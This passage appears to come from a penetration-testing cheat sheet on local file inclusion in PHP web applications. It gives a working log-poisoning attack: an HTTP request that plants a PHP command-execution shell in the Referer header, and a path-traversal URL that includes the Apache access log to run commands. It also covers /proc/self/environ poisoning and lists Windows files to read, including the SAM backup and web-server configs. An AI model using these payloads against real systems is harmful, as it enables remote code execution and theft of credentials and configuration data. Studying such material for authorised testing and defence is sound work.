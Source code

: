 ```text
GET / HTTP/1.1
Referer: <? passthru($_GET[cmd]) ?>
Host: 192.168.1.159
Connection: close
```

**Execute it in the browser**

Now you can request the log-file through the LFI and see the php-code get executed.

```text
http://192.168.1.102/index.php?page=../../../../../var/log/apache2/access.log&cmd=id
```

### Proc files <a id="proc-files"></a>

If you can read the proc-files on the system you might be able to poison them through the user-agent.

We can also inject code into /proc/self/environ through the user-agent

[https://www.exploit-db.com/papers/12992/](https://www.exploit-db.com/papers/12992/)

[https://www.youtube.com/watch?v=ttTVNcPnsJY](https://www.youtube.com/watch?v=ttTVNcPnsJY)

## Windows <a id="windows"></a>

**Fingerprinting**

```text
c:\WINDOWS\system32\eula.txt
c:\boot.ini  
c:\WINDOWS\win.ini  
c:\WINNT\win.ini  
c:\WINDOWS\Repair\SAM  
c:\WINDOWS\php.ini  
c:\WINNT\php.ini  
c:\Program Files\Apache Group\Apache\conf\httpd.conf  
c:\Program Files\Apache Group\Apache2\conf\httpd.conf  
c:\Program Files\xampp\apache\conf\httpd.conf  
c:\php\php.ini  
c:\php5\php.ini  
c:\php4\php.ini  
c:\apache\php\php.ini  
c:\xampp\apache\bin\php.ini  
c:\home2\bin\stable\apache\php.ini  
c:\home\bin\stable\apache\php.ini
```

**Logs**

Common path for apache log files on windows:

```text
c:\Program Files\Apache Group\Apache\logs\access.log  
c:\Program Files\Apache Group\Apache\logs\error.log
```
